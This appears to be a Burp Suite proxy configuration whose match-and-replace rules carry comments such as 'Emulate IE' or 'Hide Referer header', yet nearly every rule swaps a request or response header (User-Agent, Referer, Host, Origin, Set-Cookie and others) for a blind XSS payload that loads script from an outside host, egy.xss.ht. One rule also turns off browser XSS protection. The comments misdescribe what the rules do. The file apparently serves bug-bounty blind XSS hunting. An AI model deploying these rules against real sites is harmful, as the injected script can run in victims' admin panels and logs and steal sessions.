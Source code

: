 {
    "proxy":{
        "match_replace_rules":[
            {
                "comment":"Emulate IE",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^User-Agent.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Emulate iOS",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^User-Agent.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Emulate Android",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^User-Agent.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Require non-cached response",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^If-Modified-Since.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Require non-cached response",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^If-None-Match.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Hide Referer header",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^Referer.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Require non-compressed responses",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^Accept-Encoding.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Ignore cookies",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"response_header",
                "string_match":"^Set-Cookie.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Rewrite Host header",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^Host: foo.example.org$",
                "string_replace":"Host: \"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Add spoofed CORS origin",
                "enabled":true,
                "is_simple_match":true,
                "rule_type":"request_header",
                "string_replace":"Origin: \"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Remove HSTS headers",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"response_header",
                "string_match":"^Strict\\-Transport\\-Security.*$",
                "string_replace":"\"><script src=https://egy.xss.ht></script>"
            },
            {
                "comment":"Disable browser XSS protection",
                "enabled":true,
                "is_simple_match":true,
                "rule_type":"response_header",
                "string_replace":"X-XSS-Protection: 0"
            },
            {
                "comment":"Blind XSS",
                "enabled":true,
                "is_simple_match":false,
                "rule_type":"request_header",
                "string_match":"^Referer.*$",
                "string_replace":"Referer:\"><script src=https://egy.xss.ht></script>"
            }
        ]
    }
}
